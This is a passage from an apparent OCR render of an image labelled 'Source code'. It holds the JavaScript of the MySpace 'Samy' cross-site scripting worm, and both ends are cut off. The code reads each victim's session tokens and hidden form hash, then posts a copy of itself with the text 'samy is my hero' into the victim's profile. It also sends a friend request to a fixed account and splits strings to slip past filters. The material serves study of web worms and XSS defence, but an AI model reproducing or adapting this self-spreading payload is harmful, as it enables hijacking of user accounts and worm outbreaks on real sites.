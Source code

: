 myspace.com'+location.pathname+location.search}else{if(!M){getData(g())}main()}function

getClientFID(){return findIn(g(),'up_launchIC( '+A,A)}function nothing(){}function

paramsToString(AV){var N=new String();var O=0;for(var P in AV){if(O>0){N+='&'}var

Q=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q

=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return

false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeade

r('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK

.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var

S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function

getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function

getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var

V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var

Y=W.substring(0,X);return Y}function getXMLObj(){var

Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else

if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new

ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var AA=g();var

AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var

AE=AC.substring(0,AD);var

AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF='

but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function

getHome(){if(J.readyState!=4){return}var

AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(

AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();

httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',params

ToString(AS))}}}function postHero(){if(J.readyState!=4){return}var AU=J.responseText;var

AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getH

iddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='

+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var

BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSen

d(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_v

erify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function
